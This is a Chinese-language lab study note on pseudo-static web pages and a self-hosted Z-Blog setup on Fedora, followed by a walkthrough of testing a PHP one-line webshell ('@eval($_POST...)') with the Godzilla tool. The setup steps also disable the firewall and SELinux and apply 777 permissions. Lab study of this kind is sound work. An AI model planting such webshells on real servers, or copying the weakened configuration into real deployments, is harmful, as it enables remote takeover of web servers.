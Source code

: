 #静态Web
-
例子：Web前端设计  
原理：数据没有传输性（js传输不算）  
影响：无漏洞  

Tip：伪静态-动态转为静态技术
-
>简单来说，就是让动态网页（通常是通过服务器端脚本语言生成内容、处理请求的网页，如基于 PHP、ASP.NET等开发的网页）在外观上呈现出静态网页（直接由 HTML 文件构成，内容相对固定，无需服务器端实时处理的网页）的形式，但其本质上依然是动态网页，只是通过一定的技术手段对 URL 进行了改写，使其看起来更像静态网页的 URL。

>其实现原理主要是借助服务器端的相关模块或配置，当用户访问改写后的伪静态 URL 时，服务器会根据预设的规则将该 URL 解析还原成对应的动态网页请求，然后按照正常的动态网页处理流程，如执行脚本代码、查询数据库等操作，生成相应的网页内容并返回给用户。例如，原本一个动态网页的 URL 可能是 “example.com/index.php?id=123”，经过伪静态处理后变成了 “example.com/article/123.html”，从形式上看更简洁、更符合搜索引擎友好以及用户友好的特点。

实际模拟
-
在Windows Server 2012安装宝塔。
宝塔可以一键安装中间件，以及Web应用程序。

在Fedora上搭建Zblog php应用程序， 并进行php一句话木马测试。
-
1.	安装Fedora Workstation
>https://fedoraproject.org/  
>选择WORKSTATION版本  
2.	开启ssh服务  
（systemctl enable sshd& systemctl start sshd）
3.	安装所需的依赖。  
(dnf -y install httpd httpd-devel mysql mysql-server php php-mysqlnd php-gd libjpeg* php-ldap php-odbc php-pear php-xml php-json php-mbstring php-bcmath php-mhash php-intl)
4.	设置MySQL服务自启  
（systemctl enable mysqld& systemctl start mysqld）
5.	初始化MySQL  
（mysql_secure_installation），  
进行MySQL首次初始化，设置root密码
6.	日后可使用（mysql -u root -p）进行MySQL登录
7.	设置httpd服务或者nginx服务自启 二选一  
（systemctl enable httpd& systemctl start httpd）或者（systemctl enable nginx& systemctl start nginx）
8.	禁用防火墙  
（systemctl disable firewalld& systemctl stop firewalld）
9.	关闭SeLinux  
（vim /etc/selinux/config），SELINUX=设置为disabled
10.	下载zblog源码并上传  
（目录：/var/www/html）
11.	设置zblog文件夹权限  
（chmod -R 777 /var/www/html/zblog）
12.	浏览器访问<http://ip:port/zblog/>
13.	输入Zblog php安装程序所需的信息，包括数据库名（先提前创建所需的数据库），数据库端口、用户名和密码，还有后台管理系统用户名和密码，根据提示安装zblog。
14.	大功告成！
15.	下载ONE-FOX工具箱，运行哥斯拉v4.0.1
16.	在哥斯拉v4.0.1，点击管理>生成 其他默认 有效载荷选择PhpDynamicPayload， 加密器选择PHP_EVAL_XOR_BASE64.
17.	一句话代码格式 <?php @eval($_POST['cmd']); ?>
>*  ?php……?：这是 PHP 代码的起始和结束标记，用于界定 PHP 代码段，告知服务器该部分内容需要按照 PHP 语言的语法规则进行解析处理。  
>* 	@eval()：“eval” 函数是 PHP 中的一个强大且危险的函数，它的作用是将传入的字符串当作有效的 PHP 代码来执行。前面的 “@” 符号是 PHP 中的错误抑制符，用于屏蔽可能出现的错误信息，使得攻击者在执行恶意代码时尽量不暴露相关错误提示，增加隐蔽性。  
>* 	$_POST['pass']：这是从 HTTP POST 请求中获取名为 “pass” 的变量值的方式。也就是说，攻击者会通过发送一个 POST 请求到包含这句代码的 PHP 文件所在的页面，并且在请求中携带名为 “pass” 的参数，其参数值就是攻击者想要执行的恶意 PHP 代码内容。
19.	把php木马保存到你能找到的地方，并将其上传到服务器，在浏览器运行
20.	点击目标 >添加 输入URL，有效载荷选择PhpDynamicPayload， 加密器选择PHP_EVAL_XOR_BASE64.
21.	点击测试连接，提示Success，然后点击添加
22.	选中目标，右键进入，可以看到网站文件，但是看不到系统文件。 
